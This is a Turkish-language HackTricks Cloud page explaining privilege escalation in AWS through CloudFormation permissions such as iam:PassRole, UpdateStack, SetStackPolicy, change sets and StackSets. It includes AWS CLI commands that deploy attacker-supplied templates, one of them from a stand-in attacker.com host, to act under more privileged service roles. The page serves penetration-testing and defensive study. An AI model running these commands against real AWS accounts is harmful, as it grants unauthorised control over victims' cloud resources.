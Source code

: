 # AWS - Cloudformation Privilege Escalation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## cloudformation

Cloudformation hakkında daha fazla bilgi için:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Bu izinlere sahip bir saldırgan, özel bir şablonla kendi sunucusunda barındırılan bir **CloudFormation yığını** oluşturarak, belirtilen bir rolün izinleri altında eylemler gerçekleştirebilir ve böylece **yetkileri yükseltebilir**:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Aşağıdaki sayfada, **sızma örneği** ve ek izin **`cloudformation:DescribeStacks`** ile ilgili bir örnek bulunmaktadır:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potansiyel Etki:** Belirtilen cloudformation hizmet rolüne ayrıcalık yükseltme.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Bu durumda, önceki senaryoda olduğu gibi, mevcut bir cloudformation yığınını **kötüye kullanarak** güncelleyebilir ve ayrıcalıkları yükseltebilirsiniz.
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** ve saldırıyı gerçekleştirmek için kullanılabilir.

**Potansiyel Etki:** Belirtilen cloudformation hizmet rolüne ayrıcalık yükseltme.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Bu izne sahipseniz ancak **`iam:PassRole`** izniniz yoksa, yine de kullanılan yığınları **güncelleyebilir** ve **zaten ekli olan IAM Rollerini kötüye kullanabilirsiniz**. Saldırı örneği için önceki bölüme bakın (güncellemede herhangi bir rol belirtmeyin).

`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** ve saldırıyı gerçekleştirmek için kullanılabilir.

**Potansiyel Etki:** Zaten ekli olan cloudformation hizmet rolüne ayrıcalık yükseltme.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bir saldırgan, bir rolü geçme ve bir ChangeSet oluşturma ve yürütme iznine sahip olduğunda, CreateStack veya UpdateStack ile olduğu gibi **yeni bir cloudformation yığını oluşturabilir/güncelleyebilir ve cloudformation hizmet rollerini kötüye kullanabilir**.

Aşağıdaki saldırı, bir yığın oluşturmak için **ChangeSet izinlerini** kullanan [**CreateStack örneğinin bir varyasyonudur**](./#iam-passrole-cloudformation-createstack).
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **`ChangeSet` izinlerini kendinize vermek** ve saldırıyı gerçekleştirmek için kullanılabilir.

**Potansiyel Etki:** CloudFormation hizmet rollerine ayrıcalık yükseltme.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bu, önceki yönteme benzer, ancak **IAM rolleri geçirilmeden** yapılır, bu nedenle sadece **zaten ekli olanları kötüye kullanabilirsiniz**, sadece parametreyi değiştirin:
```
--change-set-type UPDATE
```
**Potansiyel Etki:** Zaten eklenmiş olan cloudformation hizmet rolüne ayrıcalık yükseltme.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Bir saldırgan, bu izinleri kötüye kullanarak keyfi cloudformation rollerini kullanmak için StackSet oluşturabilir/güncelleyebilir.

**Potansiyel Etki:** Cloudformation hizmet rollerine ayrıcalık yükseltme.

### `cloudformation:UpdateStackSet`

Bir saldırgan, bu izni passRole izni olmadan kullanarak, ekli cloudformation rollerini kötüye kullanmak için StackSet'i güncelleyebilir.

**Potansiyel Etki:** Ekli cloudformation rollerine ayrıcalık yükseltme.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin.
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'da takip edin.
* **Hacking hilelerinizi paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek katkıda bulunun.

</details>
